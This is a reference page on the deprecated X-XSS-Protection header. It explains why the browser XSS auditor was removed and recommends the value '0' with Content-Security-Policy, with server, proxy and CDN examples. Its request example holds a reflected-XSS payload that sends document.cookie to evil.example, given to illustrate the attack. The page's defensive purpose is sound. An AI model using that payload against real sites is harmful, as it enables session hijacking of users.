

# X-XSS-Protection

## Quick Summary

`X-XSS-Protection` is a **legacy, largely deprecated** response header that once controlled the built-in "XSS Auditor" / "XSS Filter" that browsers like Chrome, Safari, and Internet Explorer used to detect and block reflected cross-site scripting. Its values took the form `0` (disable the filter), `1` (enable), and `1; mode=block` (enable and block the whole page on detection). The blunt truth for 2026: **the feature it controls no longer exists in modern browsers.** Chrome removed its XSS Auditor in 2019, Edge followed, and Firefox never implemented one at all — only Safari retains a vestige. Worse, the auditors it enabled were found to *introduce* vulnerabilities (information leaks and even new XSS via selective script-blocking). The honest, current guidance from OWASP and browser vendors is: **set `X-XSS-Protection: 0` to explicitly disable any lingering auditor, and rely on [`Content-Security-Policy`](./Content-Security-Policy.md) for real XSS defense.** Do not use `1` or `1; mode=block`.

## What problem does this header solve?

It was *meant* to solve reflected XSS — the class of attack where a URL parameter is echoed unescaped into the HTML response. Example: `https://site.example/search?q=<script>steal()</script>` and the server writes that `q` value straight into the page, so the browser executes the attacker's script in the victim's session. Reflected XSS is triggered by a crafted link the victim clicks.

Browser vendors reasoned: the browser sees *both* the request (which contains the injected `<script>`) and the response (which contains the same `<script>`). If a script in the response looks suspiciously like something that was just present in the request URL, the browser could assume it was reflected/injected and neutralize it — without the site doing anything. That heuristic was the "XSS Auditor" (Chrome/Safari) / "XSS Filter" (IE), and `X-XSS-Protection` was the switch to turn it on/off and choose whether to sanitize or block.

**The problem is that the cure was worse than the disease.** The auditor could only ever catch a *subset* of reflected XSS (never stored or DOM-based), it produced false positives that broke legitimate pages, and — critically — its ability to selectively *disable* specific scripts became an attack primitive: an attacker could use the auditor to neuter a *defensive* inline script, or use its detection oracle to leak information about the page. So the header today solves a problem that is better solved elsewhere, using a feature that has been deemed harmful and removed.

## Why was it introduced?

Microsoft shipped the XSS Filter with `X-XSS-Protection` in **Internet Explorer 8 (2008)**, the same release that introduced [`X-Content-Type-Options`](./X-Content-Type-Options.md) and [`X-Frame-Options`](./X-Frame-Options.md) — an era when browsers tried to backstop insecure servers with client-side heuristics. WebKit added an "XSS Auditor" (2010), which Chrome inherited. For roughly a decade, `X-XSS-Protection: 1; mode=block` was recommended boilerplate in hardening guides.

Over time the security community documented the auditor's flaws in detail: **false negatives** (it missed most XSS), **false positives** (broke real sites), **information disclosure** via its behavior as a detection oracle, and **new XSS/exfiltration vectors** enabled by its selective script-blocking. Google concluded the feature caused more harm than good and **removed the XSS Auditor from Chrome in version 78 (2019)**; Chromium-based Edge did the same. **Firefox never built one.** Only Safari keeps a limited implementation. The header thus survives only as a way to *turn off* the last remnants — its recommended value is now `0`, the opposite of its original purpose.

## How does it work?

Understanding the values matters mainly so you recognize and remove bad ones from old configs:

- **`0`** — Disable the browser's XSS auditor/filter entirely. **This is the recommended value.** In modern browsers there is nothing to disable (the feature is gone), so it is a harmless, explicit statement of intent; in Safari's residual implementation it turns the risky heuristic off.
- **`1`** — Enable the filter; on detecting reflected XSS, *sanitize* (attempt to neutralize) the offending part of the page. Deprecated; can break pages and leak info.
- **`1; mode=block`** — Enable and, on detection, **block rendering of the entire page** (blank page). Once widely recommended, now discouraged: the blocking behavior itself became an exploitable oracle/DoS vector.
- **`1; report=<uri>`** — Chrome-only extension to report violations to a URI. Obsolete with the auditor's removal.

Behavior by component:

- **Browser behavior:** Chrome (≥78), Edge, and Firefox **ignore the header's enabling values** because they have no XSS auditor. Setting `1`/`1; mode=block` does nothing in these browsers; setting `0` also does nothing there (there's nothing to disable) but is the correct signal for any browser that *does* still have a filter. Safari's residual filter respects `0` to stay out of the way.
- **Server behavior:** The origin sets it. The only server action worth taking today is emitting `0` (or omitting the header and letting nothing enable a filter). `helmet` **stopped setting `1; mode=block` and now sets `X-XSS-Protection: 0` by default** precisely because the old value was harmful.
- **Proxy / CDN / Reverse proxy behavior:** They pass it through and can inject it. Since the header is nearly inert now, its main operational relevance is cleaning up legacy `1; mode=block` values that old proxy configs still add.

## HTTP Request Example

There is no request form. A reflected-XSS attempt (the thing the auditor tried to catch) looks like an ordinary navigation to a crafted URL:

```http
GET /search?q=<script>document.location='https://evil.example/?c='+document.cookie</script> HTTP/1.1
Host: shop.example.com
```

Whether that script executes depends on whether your server escapes `q` (it must) and on [`Content-Security-Policy`](./Content-Security-Policy.md) — **not** on `X-XSS-Protection`, which modern browsers ignore.

## HTTP Response Example

The correct modern response: explicitly disable any auditor and rely on CSP.

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-XSS-Protection: 0
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-r4nd0m'; object-src 'none'
X-Content-Type-Options: nosniff
```

An **anti-pattern** you may find in old codebases and should remove/replace:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-XSS-Protection: 1; mode=block   ← legacy; ineffective in modern browsers and historically harmful
```

## Express.js Example

```js
const express = require('express');
const helmet = require('helmet');
const app = express();

// --- helmet handles this correctly by default ---
// Modern helmet sets `X-XSS-Protection: 0` — it deliberately DISABLES the auditor
// rather than enabling the old, harmful `1; mode=block`. You get this for free:
app.use(helmet());

// helmet's REAL XSS defense is its Content-Security-Policy. Configure it properly —
// THIS is what actually stops XSS, not X-XSS-Protection:
app.use(
  helmet.contentSecurityPolicy({
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'"],   // block inline/injected scripts (add a nonce for needed inline).
      objectSrc: ["'none'"],   // kill legacy plugin XSS vectors.
      baseUri: ["'self'"],     // stop <base> tag injection.
    },
  })
);

// --- Manual form, if not using helmet ---
app.use((req, res, next) => {
  res.setHeader('X-XSS-Protection', '0'); // explicitly OFF. Do NOT set '1; mode=block'.
  next();
});

// --- What to AVOID (shown only to recognize it in legacy code) ---
// res.setHeader('X-XSS-Protection', '1; mode=block'); // ineffective + historically harmful. Delete it.

app.listen(3000);
```

Why `0` and not simply omitting it: if a downstream proxy, CDN, or older helmet version injects `1; mode=block`, an explicit `0` from your app documents intent and overrides risky defaults. But the load-bearing line here is the **CSP** — remove that and you have no real XSS protection; remove `X-XSS-Protection: 0` and, on modern browsers, nothing changes at all.

## Node.js Example

Raw `http` adds nothing automatically. The correct minimal posture:

```js
const http = require('http');

http.createServer((req, res) => {
  res.setHeader('X-XSS-Protection', '0'); // turn off any residual auditor; the modern recommendation.
  res.setHeader(
    'Content-Security-Policy',
    "default-src 'self'; script-src 'self'; object-src 'none'"
  ); // the actual XSS defense.
  res.writeHead(200, { 'Content-Type': 'text/html; charset=utf-8' });
  // Note: even with these headers, your SERVER must still escape user input.
  res.end('<h1>Hello</h1>');
}).listen(3000);
```

Contrast with Express + helmet: helmet already sets `X-XSS-Protection: 0` and gives you a configured CSP builder; with raw `http` you must set both yourself and remember that neither header substitutes for proper server-side output encoding.

## React Example

React does not set this header (it can't touch response headers), but React is unusually relevant to the *underlying topic* — XSS — because React is, by design, one of the best defenses against it:

- **JSX auto-escapes.** `<div>{userInput}</div>` renders `userInput` as text, not HTML — React escapes it, so reflected/stored XSS through normal rendering is prevented by the framework. This is why the browser's XSS auditor was redundant for well-built React apps and why disabling it (`X-XSS-Protection: 0`) is safe.
- **The escape hatch is the danger.** `dangerouslySetInnerHTML={{ __html: userInput }}` bypasses React's escaping and reintroduces XSS. If you must render HTML, sanitize with a library like DOMPurify first. No response header saves you here — not `X-XSS-Protection`, not fully; a strict CSP limits blast radius, but sanitization is the fix.
- **DOM-based XSS** (e.g. building a URL or `href` from `location.hash`) is invisible to the old auditor entirely, and is a real risk in SPAs. Again the defenses are code hygiene + [`Content-Security-Policy`](./Content-Security-Policy.md), not this header.

So React's takeaway: your protection comes from JSX escaping, avoiding `dangerouslySetInnerHTML`, sanitizing when you can't, and shipping a strict CSP — while `X-XSS-Protection` stays at `0` and out of the way.

## Browser Lifecycle

1. **Response arrives** with `X-XSS-Protection`.
2. **Modern Chrome/Edge/Firefox:** the header is essentially **ignored** — there is no XSS auditor to configure. Rendering proceeds; XSS is governed by escaping and CSP.
3. **Safari (residual filter):** `0` → filter stays out of the way (desired). `1`/`mode=block` → the legacy heuristic runs, comparing request bytes to response scripts, and may sanitize or blank the page — with the known false-positive/oracle risks.
4. **Historical (Chrome <78 / IE):** the auditor scanned for reflected patterns and either neutralized the matched script or (with `mode=block`) refused to render the page.
5. **In all cases**, the header never affected stored XSS, DOM XSS, or anything beyond a narrow reflected-XSS heuristic.

## Production Use Cases

There is essentially **one** modern production use case: **set `X-XSS-Protection: 0`** as part of your security-header baseline to explicitly opt out of any residual browser XSS filtering, and invest your actual effort in [`Content-Security-Policy`](./Content-Security-Policy.md) plus correct output encoding. Every other historical "use case" (`1; mode=block` for hardening) is now an anti-pattern to be removed during audits and dependency upgrades.

## Common Mistakes

- **Still setting `1; mode=block`.** It does nothing in Chrome/Edge/Firefox and, where a filter exists, can be exploited or break pages. Replace with `0`.
- **Believing it protects you.** Treating this header as your XSS defense leaves you wide open — it never caught stored or DOM XSS, and modern browsers don't run it at all. CSP + escaping is the real defense.
- **Copy-pasting old hardening checklists** that mandate `1; mode=block`. Those checklists predate 2019; trust current OWASP guidance (`0`) instead.
- **Conflating it with [`X-Content-Type-Options`](./X-Content-Type-Options.md).** `nosniff` is still mandatory and useful; `X-XSS-Protection`'s enabling modes are not. Don't let the shared `X-` prefix and IE8 origin fool you into treating them the same.
- **Duplicate/conflicting values** from app + proxy. If your proxy injects `1; mode=block` and your app sets `0`, verify which one the browser actually receives.

## Security Considerations

- **The enabling modes were a vulnerability, not a mitigation.** The auditor's selective script-disabling could be abused to disable a page's own security scripts; its blocking behavior worked as an information-disclosure oracle and a targeted denial-of-service on specific page states. These are the documented reasons for its removal.
- **`0` is the secure choice** because it guarantees no residual heuristic can be weaponized against your users.
- **Your real reflected-XSS defenses:** (1) context-aware output encoding on the server, (2) a strict [`Content-Security-Policy`](./Content-Security-Policy.md) (nonce/hash-based `script-src`, `object-src 'none'`, `base-uri 'self'`), (3) framework auto-escaping (React JSX), (4) sanitizing any raw-HTML insertion (DOMPurify).
- **Defense in depth:** pair `X-XSS-Protection: 0` with [`X-Content-Type-Options: nosniff`](./X-Content-Type-Options.md) (stops MIME-confusion XSS) and CSP. The header itself contributes nothing positive beyond neutralizing the old filter.

## Performance Considerations

None worth measuring — it is a tiny header, not cached-keyed, no round trips. Historically, the *auditor it enabled* cost CPU (scanning every response against the request) and could blank pages (a UX/availability cost). Setting `0` avoids even that residual work in browsers that still have the filter. This is one of the rare cases where the secure setting is also the marginally faster one.

## Reverse Proxy Considerations

Use the proxy to **stamp `0` everywhere and strip legacy values**:

```nginx
server {
  # Explicitly disable any residual browser XSS auditor on every response.
  add_header X-XSS-Protection "0" always;

  # The header that actually matters for XSS:
  add_header Content-Security-Policy "default-src 'self'; object-src 'none'; base-uri 'self'" always;
}
```

If an older config or upstream app still emits `X-XSS-Protection: 1; mode=block`, either fix it at the source or use `proxy_hide_header X-XSS-Protection;` before re-adding `0`, so the browser never sees the harmful value. Avoid setting it in two layers with different values.

## CDN Considerations

- **Cloudflare / Fastly / CloudFront** pass the header through and can set/override it via transform rules. Some CDNs' older "security" presets injected `1; mode=block`; audit those presets and switch to `0`.
- **Cache-safe:** no `Vary` needed. Because the header is inert in modern browsers, the main CDN task is *removing* bad legacy values fleet-wide.
- Do not rely on any CDN "XSS protection" toggle that maps to this header — it is not a real defense.

## Cloud Deployment Considerations

- **API gateways / load balancers (ALB, API Gateway, Apigee):** if they inject default security headers, ensure the XSS-protection default is `0`, not `1; mode=block`. Some managed defaults are outdated.
- **Managed platforms (Vercel, Netlify):** configure via their `headers` files; set `X-XSS-Protection: 0` and, more importantly, a real CSP. Framework starters occasionally still ship `1; mode=block` — update them.
- **helmet version:** ensure you're on a helmet version that defaults to `0` (helmet ≥ 5). Older deployments pinned to ancient helmet may still emit `1; mode=block`.

## Debugging

- **Chrome DevTools → Network → (document) → Headers:** confirm the value is `0` (or absent). Remember Chrome ignores enabling values entirely, so you won't see auditor behavior regardless.
- **curl:** `curl -sD - -o /dev/null https://app.example.com/` — check for a stray `X-XSS-Protection: 1; mode=block` from a proxy/CDN and replace it.
- **Postman / Bruno:** assert `X-XSS-Protection` is `0` and, crucially, that a real `Content-Security-Policy` is present — encode this as a regression test so a dependency bump can't silently reintroduce `1; mode=block`.
- **Express logging:** log `res.getHeaders()` on `finish` to catch any middleware/proxy that overrides your `0`. The point of debugging this header is almost entirely *hunting down and removing legacy enabling values*, not diagnosing behavior.

## Best Practices

- [ ] Set `X-XSS-Protection: 0` (explicitly disable) — or rely on modern `helmet`, which defaults to `0`.
- [ ] **Never** set `1` or `1; mode=block`; remove those values from legacy configs, proxies, and CDN presets.
- [ ] Implement a strict [`Content-Security-Policy`](./Content-Security-Policy.md) — this is your actual XSS defense.
- [ ] Enforce context-aware output encoding server-side; never reflect user input unescaped.
- [ ] In React, rely on JSX escaping; avoid `dangerouslySetInnerHTML`, and sanitize (DOMPurify) when you can't.
- [ ] Ship [`X-Content-Type-Options: nosniff`](./X-Content-Type-Options.md) to close MIME-confusion XSS.
- [ ] Keep `helmet` up to date so security defaults track current guidance.

## Related Headers

- [Content-Security-Policy](./Content-Security-Policy.md) — the **real, modern XSS defense** that replaces this header entirely; put your effort here.
- [X-Content-Type-Options](./X-Content-Type-Options.md) — still-mandatory sibling that stops MIME-confusion XSS; unlike `X-XSS-Protection`, it remains standardized and recommended.
- [X-Frame-Options](./X-Frame-Options.md) — another legacy `X-` header, but (unlike this one) still useful as a clickjacking fallback alongside CSP `frame-ancestors`.
- [Referrer-Policy](./Referrer-Policy.md) — commonly shipped in the same baseline security bundle.

## Decision Tree



## Mental Model

Think of `X-XSS-Protection` as a **recalled airbag**. It was installed years ago to save you in a crash (reflected XSS), but investigators found it sometimes deployed at the wrong moment, injuring passengers it was meant to protect (breaking pages, leaking data, enabling new attacks). The manufacturer issued a recall and stopped shipping it (Chrome removed the auditor); most new cars never had it (Firefox). The correct action isn't to trust the recalled part — it's to **switch it off (`0`)** so it can't misfire, and rely on the seatbelts and crumple zones that actually work: escaping your output, avoiding `dangerouslySetInnerHTML`, and a strict [`Content-Security-Policy`](./Content-Security-Policy.md). The header lingers only so you can tell any car that still has the faulty airbag: *"disarm it."*
